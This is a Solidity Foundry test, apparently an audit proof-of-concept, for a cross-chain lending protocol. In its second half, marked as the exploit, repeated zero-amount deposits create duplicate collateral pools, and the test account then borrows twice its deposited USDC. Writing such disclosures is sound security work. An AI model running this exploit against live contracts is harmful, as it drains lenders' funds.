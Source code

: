 ```
        _SpokeCommon.createAccount{value:_sendfee_bob}(_MessageParams,keccak256(abi.encodePacked("bobacc")),bytes32(0));

    //2. Asserting that the account is created and the account is registered to bob...

        bool _isAccountCreated = _AccountManager.isAccountCreated(keccak256(abi.encodePacked("bobacc")));
        assertEq(_isAccountCreated,true);
        bool _isAddressRegisteredToAccount_bob = _AccountManager.isAddressRegisteredToAccount(keccak256(abi.encodePacked("bobacc")),uint16(1),bytes32(uint256(uint160(bob))));
        assertEq(_isAddressRegisteredToAccount_bob,true);
    
    //3. Bob creates a loan..

        bytes32 loan_id = keccak256(abi.encodePacked("bobaccloan")); 
        _SpokeCommon.createLoan{value:_sendfee_bob}(_MessageParams,account_id,loan_id,uint16(2),keccak256(abi.encodePacked("bobsloan")));

    //5. Asserting that loan is active and owner is bob.

        bool _isUserLoanActive_bob = _LoanManager.isUserLoanActive(loan_id);
        bool _isUserLoanOwner_bob = _LoanManager.isUserLoanOwner(loan_id,account_id);
        assertEq(_isUserLoanActive_bob,true);
        assertEq(_isUserLoanOwner_bob,true); 
        vm.stopPrank();

    // Minting some USDC to bob
        vm.startPrank(_USDC_MASTER_MINTER_ROLE);
        _USDC.configureMinter(_USDC_MINTER_ROLE,100e6);
        vm.stopPrank();
        vm.startPrank(_USDC_MINTER_ROLE);
        _USDC.mint(bob,10e6);
        vm.stopPrank();

// EXPLOIT STARTS BELOW THIS ------------------------------------------------------------------------

    //6. Depositing multiple 0 amounts before a amount > 0.
    //   By depositing multiple 0 amounts before a real value will push duplicate colPools. 
    //   Below shows bob depositing 0 amounts twice then a deposit of 10e6.
        vm.startPrank(bob);
        _USDC.approve(address(_SpokeCircleToken),10e6);
        _SpokeCircleToken.deposit(_MessageParams,account_id,loan_id,0);
        _SpokeCircleToken.deposit(_MessageParams,account_id,loan_id,0);
        _SpokeCircleToken.deposit(_MessageParams,account_id,loan_id,10e6);
        

    //7. Now with a deposit of 10e6 bob borrows 20e6 tokens.
    //   check the console logs.
        console.log("usdc balance before", _USDC.balanceOf(bob)/10**6);
        _SpokeCommon.borrow{value: _sendfee_bob}(_MessageParams,account_id,loan_id,uint8(128),uint16(1),20e6,uint256(0));
        console.log("usdc balance after", _USDC.balanceOf(bob)/10**6);
    

        vm.stopPrank();
    





    }
```